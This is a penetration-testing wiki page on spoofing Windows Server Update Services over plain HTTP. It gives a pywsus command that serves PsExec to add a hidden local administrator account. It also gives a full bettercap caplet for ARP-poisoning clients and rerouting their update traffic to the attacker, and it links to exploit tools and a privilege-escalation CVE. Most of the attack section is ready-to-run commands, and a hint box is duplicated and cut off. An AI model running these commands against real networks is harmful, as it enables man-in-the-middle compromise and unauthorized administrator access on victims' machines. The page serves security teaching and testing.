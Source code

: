 # ⭕ WSUS Spoofing

## <mark style="color:red;">WSUS</mark>

WSUS (Windows Server Update Services) allow administrators to centralize the management and deployment of Windows updates within their organization network. When first configuring this set of services, the default configuration makes the WSUS use HTTP without any secure layer like SSL/TLS. HTTPS is not enforced by default.

For example, a computer configured to get its updates from a WSUS server will initially perform the following handshake:

![](<../../.gitbook/assets/image (1).png>)

All metadata exchanges between the client and the server is done using the Simple Object Access Protocol (SOAP). By exploiting the lack of integrity of the SOAP calls transmitted over an unencrypted HTTP channel, an attacker performing a MITM attack can tamper responses to the SOAP requests “[SyncUpdates (software)](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-wusp/d955e0d0-c51f-4407-a701-995828fd1031)” and “[GetExtendedUpdateInfo](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-wusp/c199b64c-0684-49af-8278-c117e90c1e7a)”.



When pulling an update from the WSUS server, clients are redirected to the executable file to download and execute (which can only be a binary signed by Microsoft) and obtain a handler named `CommandLineInstallation` that specifies the additional parameters to pass the binary during the update installation. Without HTTPS, the WSUS is vulnerable to Man-in-the-Middle attacks where adversaries can either pose as the update server and send malicious updates or intercept and modify updates sent to the clients.

## <mark style="color:red;">pywsus</mark>

{% embed url="https://github.com/GoSecure/pywsus" %}

The evil WSUS server needs to be started before doing any ARP poisoning. The pywsus (Python) utility can be used for that matter.

```
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser somepassword /add && net localgroup Administrators testuser /add"'
```

Programs other than PsExec.exe can be used here. Using built-in programs features to bypass security restrictions or operate attacks like this is called Living off the land (LOL). Other Windows LOL binaries and scripts (a.k.a. LOLbins or LOLbas) can be found on [lolbas-project.github.io](https://lolbas-project.github.io).

### <mark style="color:orange;">Poisoning and hijacking</mark>

Once the WSUS server is up and running, the ARP poisoning attack can start. The best tool to operate ARP poisoning is [bettercap](https://www.bettercap.org/) (Go) and for the majority of the scenarios, basic knowledge of the iptables utility is required.

Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

```c
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

### Triggering Windows update

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`.&#x20;

{% hint style="info" %}
By default, the automatic updates interval is 22 hours ([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)).
{% endhint %}



{% hint style="info" %}
urs ([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)).
{% endhint %}

## <mark style="color:red;">Alternative attack</mark>

Another way of attacking insecure WSUS without having to rely on ARP poisoning but requiring user access to the target machine is explained in the following blogpost : [WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

## <mark style="color:red;">WSUSpect Proxy</mark>

{% embed url="https://github.com/pimps/wsuxploit" %}
